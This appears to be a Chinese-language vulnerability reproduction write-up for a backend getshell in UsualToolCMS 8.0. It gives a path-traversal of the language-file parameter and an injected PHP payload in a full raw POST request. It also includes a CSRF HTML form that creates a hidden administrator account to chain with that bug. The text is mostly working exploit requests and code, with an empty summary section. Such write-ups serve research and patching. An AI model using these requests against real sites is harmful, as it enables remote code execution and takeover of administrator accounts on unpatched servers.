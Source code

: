 UsualToolcms 8.0 后台GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

洞点:<http://0-sec.org/cmsadmin/a_lang.php>

13行未对\$lg做判断

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId25.png)

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId26.png)

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId27.png)

点击保存时抓包需要修改url处的lg参数这样就上传到跟目录了，再在post
参数的en后面加入

    en"},<?php phpinfo(); ?>

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId28.png)

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId29.png)

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_langx.php?x=m&lg=../1.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_langx.php?lg=lg-en.json
    Cookie: navleft=21; UTCMSLanguage=zh; PHPSESSID=1r5kk3jieflfbnseav3e5dnclo
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 9189

    submit=保存语言包&keys[]=language&values[]=en"},<?php phpinfo(); ?>&keys[]=charset&values[]=utf-8&keys[]=speak&values[]=English&keys[]=web&values[]=UsualToolCMS&key[]=index&value[]=Home&key[]=article&value[]=Article&key[]=product&value[]=Product&key[]=picture&value[]=Picture&key[]=atlas&value[]=Atlas&key[]=contact&value[]=Contact&key[]=about&value[]=About&key[]=forum&value[]=Forum&key[]=register&value[]=Register&key[]=login&value[]=Login&key[]=news&value[]=News&key[]=job&value[]=Job&key[]=wages&value[]=Wages&key[]=application&value[]=Application&key[]=resume&value[]=Resume&key[]=shopcart&value[]=Shopcart&key[]=account&value[]=Account&key[]=member&value[]=Member&key[]=up&value[]=Up&key[]=down&value[]=Down&key[]=more&value[]=More&key[]=new&value[]=New&key[]=authorize&value[]=Authorize&key[]=authenticating&value[]=Authenticating&key[]=qq&value[]=QQ&key[]=membercenter&value[]=Member&key[]=username&value[]=Username&key[]=password&value[]=Password&key[]=forgotpass&value[]=Forgot&key[]=search&value[]=Search&key[]=detail&value[]=Detail&key[]=size&value[]=Size&key[]=spec&value[]=Spec&key[]=color&value[]=Color&key[]=aboutus&value[]=About Us&key[]=newgoods&value[]=New Product&key[]=topgoods&value[]=Top Product&key[]=link&value[]=Link&key[]=confirm&value[]=Confirm&key[]=email&value[]=Email&key[]=title&value[]=Title&key[]=content&value[]=Content&key[]=avatar&value[]=Avatar&key[]=sex&value[]=Sex&key[]=man&value[]=Man&key[]=woman&value[]=Woman&key[]=address&value[]=ADD.&key[]=tel&value[]=Tel&key[]=fax&value[]=Fax&key[]=introduction&value[]=Intro&key[]=validatecode&value[]=Captcha&key[]=changeit&value[]=Change it&key[]=order&value[]=Order&key[]=writeorder&value[]=Write Order&key[]=menu&value[]=Menu&key[]=balance&value[]=Balance&key[]=level&value[]=Level&key[]=writearticles&value[]=Write Articles&key[]=articlemanagement&value[]=Article Admin&key[]=articlebrowse&value[]=Article Browse&key[]=writeonline&value[]=Add New&key[]=payment&value[]=Payment&key[]=registrationtime&value[]=Reg Time&key[]=lastlogintime&value[]=Last Login&key[]=fullname&value[]=Full Name&key[]=privileges:discount&value[]=Privileges:Discount&key[]=state&value[]=State&key[]=source&value[]=Source&key[]=ordernumber&value[]=Order No.&key[]=money&value[]=Money&key[]=time&value[]=Time&key[]=finish&value[]=Finish&key[]=unpaid&value[]=Unpaid&key[]=deliver&value[]=Deliver&key[]=refund&value[]=Refund&key[]=goods&value[]=Goods&key[]=charge&value[]=Charge&key[]=other&value[]=Other&key[]=ordertime&value[]=Order Time&key[]=voucher&value[]=Voucher&key[]=customer&value[]=Customer&key[]=zipcode&value[]=Zip Code&key[]=logistics&value[]=Logistics&key[]=logisticscompany&value[]=Company&key[]=logisticsnumber&value[]=Number&key[]=logisticsdetails&value[]=Details&key[]=paymentmethod&value[]=Method&key[]=alipay&value[]=Alipay&key[]=wechatpay&value[]=Tencent Wechat&key[]=paypal&value[]=Paypal&key[]=waitinganswer&value[]=Waiting&key[]=answered&value[]=Answered&key[]=question&value[]=Question&key[]=reply&value[]=Reply&key[]=tencentaccount&value[]=Tencent&key[]=weiboaccount&value[]=Weibo&key[]=wechataccount&value[]=Wechat&key[]=binded&value[]=Binded&key[]=untie&value[]=Untie&key[]=quantity&value[]=Qty&key[]=parameter&value[]=Parm&key[]=total&value[]=Total&key[]=submit&value[]=Submit&key[]=delete&value[]=Del&key[]=unit&value[]=USD&key[]=actual&value[]=Actual&key[]=feedback&value[]=Feedback&key[]=otheraccount&value[]=Other Accounts&key[]=out&value[]=Out&key[]=ranking&value[]=Ranking&key[]=recommend&value[]=Recommend&key[]=tag&value[]=Tag&key[]=tags&value[]=Tags&key[]=read&value[]=Read&key[]=productdetails&value[]=Product Details&key[]=service&value[]=Service&key[]=category&value[]=Category&key[]=allcategory&value[]=All Category&key[]=stock&value[]=Stock&key[]=price&value[]=Price&key[]=sale&value[]=Sale&key[]=loginview&value[]=Login View&key[]=readme&value[]=Read Me&key[]=popularity&value[]=Popularity&key[]=details&value[]=Details&key[]=message&value[]=Message&key[]=original&value[]=Original&key[]=author&value[]=Author&key[]=pass&value[]=Pass&key[]=audit&value[]=Audit&key[]=return&value[]=Return&key[]=yes&value[]=Yes&key[]=no&value[]=No&key[]=modify&value[]=Modify&key[]=articlemodify&value[]=Article Modify&key[]=type&value[]=Type&key[]=moreupload&value[]=Up to upload&key[]=success&value[]=Success&key[]=fail&value[]=Fail&key[]=upload&value[]=Upload&key[]=uploadtime&value[]=Upload Time&key[]=contactus&value[]=Contact Us&key[]=previouspage&value[]=Prev&key[]=nextpage&value[]=Next&key[]=firstpage&value[]=First&key[]=lastpage&value[]=Last&key[]=totalpage&value[]=Total&key[]=currentpage&value[]=Current&key[]=buy&value[]=Buy&key[]=mailverify&value[]=Email validation&key[]=welcome&value[]=Welcome&key[]=close&value[]=closed&key[]=findpassword&value[]=Find Password&key[]=contactmanager&value[]=Contact Manager&key[]=orderdetaillogin&value[]=For order details,please visit the website.&key[]=enterusername&value[]=Please enter username!&key[]=enterpassword&value[]=Please enter password!&key[]=enteremail&value[]=Please enter Email!&key[]=emailerr&value[]=Email error!&key[]=entertitle&value[]=Please enter title!&key[]=entercontent&value[]=Please enter content!&key[]=selecttype&value[]=Type must be selected!&key[]=enterauthor&value[]=Please enter author!&key[]=enterpasswords&value[]=Please confirm the password!&key[]=passworderr&value[]=The codes don&key[]=entercaptcha&value[]=Please enter captcha!&key[]=captchaerr&value[]=Captcha error!&key[]=mailsenderr&value[]=Mail not sent!&key[]=mailok&value[]=Please check email!&key[]=pleasemailverify&value[]=Please check email for verification!&key[]=mailverifycode&value[]=Email Authentication Code&key[]=mailcopylink&value[]=Please copy the following link&key[]=totalnum&value[]=Total Num&key[]=updateok&value[]=Update successed!&key[]=updateno&value[]=Failed to update!&key[]=payok&value[]=Successful payment!&key[]=payno&value[]=Payment Failed!&key[]=createempty&value[]=Required field is empty!&key[]=createok&value[]=Create successed!&key[]=createno&value[]=Failed to create!&key[]=gotopay&value[]=Go to pay!&key[]=untieok&value[]=Untie successed!&key[]=untieno&value[]=Untie failed!&key[]=delok&value[]=Delete successed!&key[]=delno&value[]=Delete failed!&key[]=regclose&value[]=Website registration closed!&key[]=regmailerr&value[]=Account or email registered!&key[]=loginusererr&value[]=Account does not exist!&key[]=loginpasserr&value[]=Account or password does not match!&key[]=administratorreply&value[]=The administrator has not responded, please wait patiently.&key[]=noscript&value[]=Sorry, your browser disabled JavaScript, it may not be able to use some of the site&key[]=readmecontent&value[]=We guarantee that the outer packing of the goods is in good condition at the time of shipment. When you receive the goods, please carefully check whether the invoice and the goods are consistent with the delivery order. If you find that the goods are missing or damaged, please contact our customer service department on the spot when the delivery personnel are still on the scene; If you find that the package is damaged or the goods are damaged in transit, please point out and refuse to accept it on the spot. After refusal, please call our customer service. If you have signed for it or someone else has signed for it, you will be considered as the packaging, quantity and content of the goods. I will not be able to accept.&key[]=copyright&value[]=Copyright&key[]=cssdisplay&value[]=none&key[]=test&value[]=Test
    请将上面post数据包内容进行url编码

### csrf配合上面的后台getshell

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/cmsadmin/a_adminx.php?x=a" method="POST">
          <input type="hidden" name="username" value="safetest" />
          <input type="hidden" name="roleid" value="1" />
          <input type="hidden" name="password" value="123456" />
          <input type="hidden" name="password&#95;confirm" value="123456" />
          <input type="hidden" name="submit" value="æ&#143;&#144;äº&#164;" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![](./.resource/UsualToolcms8.0后台GETSHELL/media/rId32.shtml)
